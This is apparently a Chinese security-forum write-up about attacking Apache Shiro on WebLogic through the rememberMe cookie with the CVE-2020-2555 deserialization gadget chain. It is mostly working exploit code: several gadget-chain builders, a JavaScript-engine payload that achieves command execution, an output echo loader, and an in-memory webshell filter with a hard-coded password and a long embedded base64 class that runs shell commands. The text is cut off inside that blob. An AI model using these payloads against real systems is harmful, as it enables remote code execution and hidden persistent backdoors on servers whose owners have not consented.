






# 使用 CVE-2020-2555 攻击 Shiro - 先知社区

使用 CVE-2020-2555 攻击 Shiro

- - -

# 前言

前段时间项目上遇到一个部署在 Weblogic 上存在漏洞的 Shiro 应用，于是参照 `Y4er` 师傅的文章 [《使用WebLogic CVE-2020-2883配合Shiro rememberMe反序列化一键注入蚁剑shell》](https://xz.aliyun.com/t/8202) 的文章调出了 payload， 但是很遗憾并没有成功（也许是目标 Weblogic 打了补丁），但是过程还是有些意思，记录一下留作备忘。

本文中所有的代码均可以从[这里](https://github.com/feihong-cs/Attacking_Shiro_with_CVE_2020_2555)找到。

# 背景介绍

在测试目标应用的时候，使用工具跑出了默认Key，从而可以确定目标应用存在 Shiro 漏洞，但是一些常规的链如 `CommonsCollectionsK1/K2` `CommonsBeanUtils1/2` 均未能成功生效，从 Cookie 和其他信息中判断目标应用为 Weblogic。

记得之前本地也做过测试，使用常规的工具并无法成功攻击部署在 Weblogic 上的 Shiro 应用，常规的链在攻击时，Weblogic 均会报错。但是好在记得之前看过 `Y4er` 师傅的文章，我觉得还有机会“抢救”一下。于是，参考 `Y4er` 师傅的文章，成功在本地的 Weblogic 环境实现了无回显的命令执行，但是在测试目标应用的时候并未触发 `DNSLog`请求，好吧，暂且认为目标应用不能出网，毕竟这种情况也屡见不鲜了，那在这种情况下如何实现`回显`与`上传shell`呢？`Y4er`师傅使用了 `URLClassLoader` 的方式，这种方式肯定是可行的，但是如何把目标 jar 包上传至服务器文章中并没有细说，而且我面临的情况有2个小问题

```plain
不确定目标系统是 Windows 还是 Linux，不同操作系统在命令写入文件时 Base64 的方式并不一样，需要分别要尝试，较为麻烦
目标应用前端使用了 Apache Tomcat 进行转发，限制了 cookie 大小最大无法超过 8096, 导致在命令执行写入文件时需要使用多个 cookie，这可能会导致在写入文件时出现一些预期之外的 bug
```

由于这些原因，于是我希望能有一种更好，更通用的方式，于是我开始了尝试。

## 第一次尝试，失败的 FileOutputStream 尝试

电脑里有个较为古老的 Weblogic 反序列化利用工具，是 Weblogic 早期刚爆出反序列化漏洞时的利用工具，我记得当时它的代码里是首先使用 `FileOutputStream` 的方式使用写入jar包, 然后通过 `URLClassLoader` 加载写入的 jar 包进而实现命令执行等功能。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20210323144133-cf06cfee-8ba2-1.png)  
这里如果我可以通过 `FileOutputStream` 的方式将 jar包写入到目标文件系统，就可以屏蔽不同操作系统带来的不兼容性，于是模仿其中的代码使用 `CVE-2020-2555` 的方式对此进行了实现，并直接在代码中进行反序列化进行了测试，代码如下所示，结果确实成功写入了 `CVE_2020_2555.txt`，证明了代码是 OK 的。

```plain
byte[] payload = "CVE_2020_2555 works!".getBytes();

        ReflectionExtractor extractor1 = new ReflectionExtractor(
                "getConstructor",
                new Object[]{new Class[]{String.class}}
        );

        ReflectionExtractor extractor2 = new ReflectionExtractor(
                "newInstance",
                new Object[]{new Object[]{"CVE_2020_2555.txt"}}
        );

        ReflectionExtractor extractor3 = new ReflectionExtractor(
                "write",
                new Object[]{payload}
        );

        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                extractor1,
                extractor2,
                extractor3
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(valueExtractors);
        LimitFilter limitFilter = new LimitFilter();

        //m_comparator
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //m_oAnchorTop
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, FileOutputStream.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, limitFilter);

        //序列化
        byte[] bytes = Util.serialize(badAttributeValueExpException);

        //反序列化
        Util.deserialize(bytes);
```

但是在使用此代码生成 `rememberMe cookie` 攻击本地部署的 Shiro 应用时，却报错了，好吧，这条方式看来走不通  
[](https://xzfile.aliyuncs.com/media/upload/picture/20210323150015-6bb502e6-8ba5-1.png)

## 第二次尝试，失败的 TemplatesImpl 尝试

写入文件的尝试失败后，我想能不能直接执行任意代码，如果可以直接执行任意代码的话，就不需要借助 `URLClassLoader`了，自然就无需在服务器上落地 jar 包，那么如何直接实现任意代码执行呢？回想 `ysoserial` 的代码，是通过设置 `TemplatesImpl` 的 `_bytecodes` 属性，进而通过触发其 `newTransformer` 方法实现任意代码执行，那么同样的这里可以参考其方式对 `CVE-2020-2555` 进行改造，代码如下，并直接在代码中进行反序列化测试确保代码是 OK 的。

```plain
final Object eveiObject = Gadgets.createTemplatesImpl("java.lang.Runtime.getRuntime().exec(\"calc\");");

        ReflectionExtractor extractor1 = new ReflectionExtractor(
                "getMethod",
                new Object[]{"newTransformer", new Class[0]}
        );

        ReflectionExtractor extractor2 = new ReflectionExtractor(
                "invoke",
                new Object[]{eveiObject , new Object[0]}

        );

        ValueExtractor[] valueExtractors = new ValueExtractor[]{
                extractor1,
                extractor2
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(valueExtractors);
        LimitFilter limitFilter = new LimitFilter();

        //m_comparator
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //m_oAnchorTop
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, TemplatesImpl.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, limitFilter);

        //序列化
        byte[] bytes = Util.serialize(badAttributeValueExpException);

        //反序列化
        Util.deserialize(bytes);
```

但是同样的，在使用此代码生成 `rememberMe cookie` 攻击本地部署的 Shiro 应用时，也报错了，好吧，这种方式看来也走不通  
[](https://xzfile.aliyuncs.com/media/upload/picture/20210323151122-f95860b0-8ba6-1.png)

## 第三次尝试，成功的 ScriptEngineManager 尝试

二次尝试都失败后，一时半会失去了方向，站起来走了几圈之后，想起来 `清水川崎` 师傅之前写过的一篇文章 [《CommonsCollections12之CommonsCollections6改造计划》](https://xz.aliyun.com/t/8673), 其中使用 `JavaScript脚本解析引擎`实现了任意代码执行，不知道这里是否适用，但是值得一试。于是老样子，首先对 `CVE-2020-2555` 进行改造，代码如下，并直接在代码中进行反序列化测试确保代码是 OK 的。

```plain
ReflectionExtractor extractor1 = new ReflectionExtractor(
                "getConstructor",
                new Object[]{new Class[0]}
        );

        ReflectionExtractor extractor2 = new ReflectionExtractor(
                "newInstance",
                new Object[]{new Object[0]}
        );

        ReflectionExtractor extractor3 = new ReflectionExtractor(
                "getEngineByName",
                new Object[]{"javascript"}
        );

        ReflectionExtractor extractor4 = new ReflectionExtractor(
                "eval",
                new Object[]{"java.lang.Runtime.getRuntime().exec('calc');"}
        );

        ReflectionExtractor[] extractors = {
                extractor1,
                extractor2,
                extractor3,
                extractor4
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
        LimitFilter limitFilter = new LimitFilter();

        //m_comparator
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //m_oAnchorTop
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, ScriptEngineManager.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, limitFilter);

        //序列化
        byte[] bytes = Util.serialize(badAttributeValueExpException);

        //反序列化
        Util.deserialize(bytes);
```

这次，在使用此代码生成 `rememberMe cookie` 攻击本地部署的 Shiro 应用时，终于成功弹出了计算器，清水NB  
[](https://xzfile.aliyuncs.com/media/upload/picture/20210323152620-1025993c-8ba9-1.png)

## 下一步，成功的回显

在成功利用 `ScriptEngineManager` 执行任意代码后，下一步的目标就是实现回显了。回显代码 `Lufei` 师傅很早的时候就给出来了，但是这里要把它改成 `js` 的方式还是有些麻烦的，不过还好这块我有经验，之前在写 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 的时候，在编写 `Tomcat-EL Bypass`的时候就需要将大量的 Java代码转换为 JS代码，这个非常让人头痛，不过最后终于用类加载的方式解决了这个让人头痛的问题。于是可以将 `CVE-2020-2555` 修改为如下方式，结合之前 `Lufei` 师傅的 Weblogic 回显代码，最终得到的代码如下

```plain
byte[] bytes = ClassFiles.classAsBytes(WeblogicEcho.class);
        String classCode = Base64.encodeToString(bytes);

        String code = "var bytes = org.apache.shiro.codec.Base64.decode('" + classCode + "');\n" +
                "        var classLoader = java.lang.Thread.currentThread().getContextClassLoader();\n" +
                "        try{\n" +
                "            var clazz = classLoader.loadClass('" + cls.getName() + "');\n" +
                "            clazz.newInstance();\n" +
                "        }catch(err){\n" +
                "            var method = java.lang.ClassLoader.class.getDeclaredMethod('defineClass', ''.getBytes().getClass(), java.lang.Integer.TYPE, java.lang.Integer.TYPE);\n" +
                "            method.setAccessible(true);\n" +
                "            var clazz = method.invoke(classLoader, bytes, 0, bytes.length);\n" +
                "            clazz.newInstance();\n" +
                "        }";

        ReflectionExtractor extractor1 = new ReflectionExtractor(
                "getConstructor",
                new Object[]{new Class[0]}
        );

        ReflectionExtractor extractor2 = new ReflectionExtractor(
                "newInstance",
                new Object[]{new Object[0]}
        );

        ReflectionExtractor extractor3 = new ReflectionExtractor(
                "getEngineByName",
                new Object[]{"javascript"}
        );

        ReflectionExtractor extractor4 = new ReflectionExtractor(
                "eval",
                new Object[]{code}
        );

        ReflectionExtractor[] extractors = {
                extractor1,
                extractor2,
                extractor3,
                extractor4
        };

        ChainedExtractor chainedExtractor = new ChainedExtractor(extractors);
        LimitFilter limitFilter = new LimitFilter();

        //m_comparator
        Field m_comparator = limitFilter.getClass().getDeclaredField("m_comparator");
        m_comparator.setAccessible(true);
        m_comparator.set(limitFilter, chainedExtractor);

        //m_oAnchorTop
        Field m_oAnchorTop = limitFilter.getClass().getDeclaredField("m_oAnchorTop");
        m_oAnchorTop.setAccessible(true);
        m_oAnchorTop.set(limitFilter, ScriptEngineManager.class);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, limitFilter);

        return Util.serialize(badAttributeValueExpException);
```

使用此代码生成的`rememberMe cookie`，最终成功实现了回显  
[](https://xzfile.aliyuncs.com/media/upload/picture/20210323154832-2a1a4218-8bac-1.png)

## 最后一步，实现内存shell

内存shell的话，之前有师傅已经写过文章了，由于 cookie 大小的限制，实际的内存shell 代码是放在 `POST Body`里面的，用 cookie 里的代码加载执行 `POST Body` 中的代码并执行从而得到内存shell。这里的内存shell，直接使用我在 `JNDIExploit` 中使用的代码，其中 cookie 中的 loader 代码如下

```plain
package com.feihong.template;

import org.apache.shiro.codec.Base64;
import weblogic.servlet.internal.ServletRequestImpl;
import weblogic.work.ExecuteThread;
import weblogic.work.WorkAdapter;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class WeblogicMemshellLoader {
    public WeblogicMemshellLoader() throws Exception {
        WorkAdapter workAdapter = ((ExecuteThread)Thread.currentThread()).getCurrentWork();
        Field field = workAdapter.getClass().getDeclaredField("connectionHandler");
        field.setAccessible(true);
        Object obj = field.get(workAdapter);
        ServletRequestImpl servletRequest = (ServletRequestImpl) obj.getClass().getMethod("getServletRequest").invoke(obj);

        Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
        String code = servletRequest.getParameter("code");
        byte[] bytes = Base64.decode(code);
        Class clz;
        try{
            clz = classLoader.loadClass("com.feihong.template.WeblogicMemshellTemplate");
        }catch(Exception e){
            method.setAccessible(true);
            clz = (Class) method.invoke(classLoader, bytes, 0, bytes.length);
        }
        clz.getConstructor(new Class[]{ServletRequestImpl.class}).newInstance(new Object[]{servletRequest});
    }
}
```

POST Body中的代码如下

```plain
package com.feihong.template;

import sun.misc.BASE64Decoder;
import weblogic.servlet.internal.FilterManager;
import weblogic.servlet.internal.ServletRequestImpl;
import weblogic.servlet.internal.WebAppServletContext;
import weblogic.servlet.utils.ServletMapping;
import weblogic.utils.collections.MatchMap;

import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.ArrayList;
import java.util.Map;

public class WeblogicMemshellTemplate {
    private ServletRequestImpl servletRequest;
    private String filterName = "dynamicFilter";
    private String urlPattern = "/*";

    public WeblogicMemshellTemplate(ServletRequestImpl servletRequest){
        this.servletRequest = servletRequest;
        addMemshell();
    }

    private void addMemshell(){
        try {
            Field contextField = servletRequest.getClass().getDeclaredField("context");
            contextField.setAccessible(true);
            WebAppServletContext servletContext = (WebAppServletContext) contextField.get(servletRequest);
            FilterManager filterManager = servletContext.getFilterManager();

            // 判断一下，防止多次加载， 默认只加载一次，不需要重复加载
            if (!filterManager.isFilterRegistered(filterName)) {
                System.out.println("[+] Add Dynamic Filter");

                ClassLoader cl = Thread.currentThread().getContextClassLoader();
                Class clazz;
                try{
                    clazz = cl.loadClass("com.feihong.template.DynamicFilterTemplate");
                }catch(ClassNotFoundException e){
                    BASE64Decoder base64Decoder = new BASE64Decoder();
                    String codeClass = "yv66vgAAADIBXgoAQgCnCACoCQBdAKkIAKoJAF0AqwgArAkAXQCtCgBdAK4JAK8AsAgAsQoAsgCzCAC0CwBIALUIALYKABMAtwoAEwC4CQC5ALoIALsHALwIAL0IAL4IAHcIAL8HAMAKAMEAwgoAwQDDCgDEAMUKABgAxggAxwoAGADICgAYAMkLAEkAygoAywCzBwDMCwAiAM0LACIAzggAzwsAIgDQCADRCwDSANMIANQKANUA1gcA1wcA2AoALACnCwDSANkKACwA2ggA2woALADcCgAsAN0KABMA3goAKwDfCgDVAOAHAOEKADYApwsASADiCgDjAOQKADYA5QoA1QDmCQBdAOcIAOgHAOkHAHwHAOoKAD4A6wcA7AoA7QDuCgDtAO8KAPAA8QoAPgDyCADzBwD0BwD1BwD2CgBKAPcLAPgA+QgA+goAQAD7BwD8CgBCAP0JAP4A/wcBAAoAPgEBCAECCgDwAQMKAP4BBAcBBQoAVwD3BwEGCgBZAPcHAQcKAFsA9wcBCAcBCQEAEm15Q2xhc3NMb2FkZXJDbGF6egEAEUxqYXZhL2xhbmcvQ2xhc3M7AQAQYmFzaWNDbWRTaGVsbFB3ZAEAEkxqYXZhL2xhbmcvU3RyaW5nOwEAE2JlaGluZGVyU2hlbGxIZWFkZXIBABBiZWhpbmRlclNoZWxsUHdkAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBACxMY29tL2ZlaWhvbmcvdGVtcGxhdGUvRHluYW1pY0ZpbHRlclRlbXBsYXRlOwEABGluaXQBAB8oTGphdmF4L3NlcnZsZXQvRmlsdGVyQ29uZmlnOylWAQAMZmlsdGVyQ29uZmlnAQAcTGphdmF4L3NlcnZsZXQvRmlsdGVyQ29uZmlnOwEACkV4Y2VwdGlvbnMHAQoBAAhkb0ZpbHRlcgEAWyhMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVxdWVzdDtMamF2YXgvc2VydmxldC9TZXJ2bGV0UmVzcG9uc2U7TGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47KVYBAARjbWRzAQATW0xqYXZhL2xhbmcvU3RyaW5nOwEABnJlc3VsdAEAA2NtZAEAAWsBAAZjaXBoZXIBABVMamF2YXgvY3J5cHRvL0NpcGhlcjsBAA5ldmlsQ2xhc3NCeXRlcwEAAltCAQAJZXZpbENsYXNzAQAKZXZpbE9iamVjdAEAEkxqYXZhL2xhbmcvT2JqZWN0OwEADHRhcmdldE1ldGhvZAEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQABZQEAFUxqYXZhL2xhbmcvRXhjZXB0aW9uOwEADnNlcnZsZXRSZXF1ZXN0AQAeTGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3Q7AQAPc2VydmxldFJlc3BvbnNlAQAfTGphdmF4L3NlcnZsZXQvU2VydmxldFJlc3BvbnNlOwEAC2ZpbHRlckNoYWluAQAbTGphdmF4L3NlcnZsZXQvRmlsdGVyQ2hhaW47AQANU3RhY2tNYXBUYWJsZQcAvAcAdQcA9gEAB2Rlc3Ryb3kBAAppbml0aWFsaXplAQACZXgBACFMamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbjsBAAVjbGF6egEABm1ldGhvZAEABGNvZGUBAAVieXRlcwEAIkxqYXZhL2xhbmcvQ2xhc3NOb3RGb3VuZEV4Y2VwdGlvbjsBAAtjbGFzc0xvYWRlcgEAF0xqYXZhL2xhbmcvQ2xhc3NMb2FkZXI7AQAiTGphdmEvbGFuZy9JbGxlZ2FsQWNjZXNzRXhjZXB0aW9uOwEAFUxqYXZhL2lvL0lPRXhjZXB0aW9uOwEALUxqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uOwcBCAcA6gcA/AcA6QcBCwcBAAcBBQcBBgcBBwEAClNvdXJjZUZpbGUBABpEeW5hbWljRmlsdGVyVGVtcGxhdGUuamF2YQwAZQBmAQAEcGFzcwwAYQBiAQAMWC1PcHRpb25zLUFpDABjAGIBABBlNDVlMzI5ZmViNWQ5MjViDABkAGIMAI8AZgcBDAwBDQEOAQAdWytdIER5bmFtaWMgRmlsdGVyIHNheXMgaGVsbG8HAQ8MARABEQEABHR5cGUMARIBEwEABWJhc2ljDADzARQMARUBFgcBFwwBGABiAQABLwEAEGphdmEvbGFuZy9TdHJpbmcBAAcvYmluL3NoAQACLWMBAAIvQwEAEWphdmEvdXRpbC9TY2FubmVyBwEZDAEaARsMARwBHQcBHgwBHwEgDABlASEBAAJcQQwBIgEjDAEkASUMASYBJwcBKAEAJWphdmF4L3NlcnZsZXQvaHR0cC9IdHRwU2VydmxldFJlcXVlc3QMASkBEwwBKgElAQAEUE9TVAwBKwEsAQABdQcBLQwBLgEvAQADQUVTBwEwDAExATIBAB9qYXZheC9jcnlwdG8vc3BlYy9TZWNyZXRLZXlTcGVjAQAXamF2YS9sYW5nL1N0cmluZ0J1aWxkZXIMATMBNAwBNQE2AQAADAE1ATcMATgBJQwBOQE6DABlATsMAGwBPAEAFnN1bi9taXNjL0JBU0U2NERlY29kZXIMAT0BPgcBPwwBQAElDAFBAUIMAUMBRAwAXwBgAQALZGVmaW5lQ2xhc3MBAA9qYXZhL2xhbmcvQ2xhc3MBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIMAUUBRgEAEGphdmEvbGFuZy9PYmplY3QHAUcMAUgBSQwBSgFLBwELDAFMAU0MAU4BTwEABmVxdWFscwEAHGphdmF4L3NlcnZsZXQvU2VydmxldFJlcXVlc3QBAB1qYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAVAAZgcBUQwAcgFSAQAiY29tLmZlaWhvbmcudGVtcGxhdGUuTXlDbGFzc0xvYWRlcgwBUwFUAQAgamF2YS9sYW5nL0NsYXNzTm90Rm91bmRFeGNlcHRpb24MAVUBVgcBVwwBWABgAQAfamF2YS9sYW5nL05vU3VjaE1ldGhvZEV4Y2VwdGlvbgwBWQFWAQMQeXY2NnZnQUFBRElBR3dvQUJRQVdCd0FYQ2dBQ0FCWUtBQUlBR0FjQUdRRUFCanhwYm1sMFBnRUFHaWhNYW1GMllTOXNZVzVuTDBOc1lYTnpURzloWkdWeU95bFdBUUFFUTI5a1pRRUFEMHhwYm1WT2RXMWlaWEpVWVdKc1pRRUFFa3h2WTJGc1ZtRnlhV0ZpYkdWVVlXSnNaUUVBQkhSb2FYTUJBQ1JNWTI5dEwyWmxhV2h2Ym1jdmRHVnRjR3hoZEdVdlRYbERiR0Z6YzB4dllXUmxjanNCQUFGakFRQVhUR3BoZG1FdmJHRnVaeTlEYkdGemMweHZZV1JsY2pzQkFBdGtaV1pwYm1WRGJHRnpjd0VBTENoYlFreHFZWFpoTDJ4aGJtY3ZRMnhoYzNOTWIyRmtaWEk3S1V4cVlYWmhMMnhoYm1jdlEyeGhjM003QVFBRllubDBaWE1CQUFKYlFnRUFDMk5zWVhOelRHOWhaR1Z5QVFBS1UyOTFjbU5sUm1sc1pRRUFFazE1UTJ4aGMzTk1iMkZrWlhJdWFtRjJZUXdBQmdBSEFRQWlZMjl0TDJabGFXaHZibWN2ZEdWdGNHeGhkR1V2VFhsRGJHRnpjMHh2WVdSbGNnd0FEd0FhQVFBVmFtRjJZUzlzWVc1bkwwTnNZWE56VEc5aFpHVnlBUUFYS0Z0Q1NVa3BUR3BoZG1FdmJHRnVaeTlEYkdGemN6c0FJUUFDQUFVQUFBQUFBQUlBQUFBR0FBY0FBUUFJQUFBQU9nQUNBQUlBQUFBR0tpdTNBQUd4QUFBQUFnQUpBQUFBQmdBQkFBQUFCQUFLQUFBQUZnQUNBQUFBQmdBTEFBd0FBQUFBQUFZQURRQU9BQUVBQ1FBUEFCQUFBUUFJQUFBQVJBQUVBQUlBQUFBUXV3QUNXU3UzQUFNcUF5cSt0Z0FFc0FBQUFBSUFDUUFBQUFZQUFRQUFBQWdBQ2dBQUFCWUFBZ0FBQUJBQUVRQVNBQUFBQUFBUUFCTUFEZ0FCQUFFQUZBQUFBQUlBRlE9PQwBWgFbDAFcAV0BACBqYXZhL2xhbmcvSWxsZWdhbEFjY2Vzc0V4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BACtqYXZhL2xhbmcvcmVmbGVjdC9JbnZvY2F0aW9uVGFyZ2V0RXhjZXB0aW9uAQAqY29tL2ZlaWhvbmcvdGVtcGxhdGUvRHluYW1pY0ZpbHR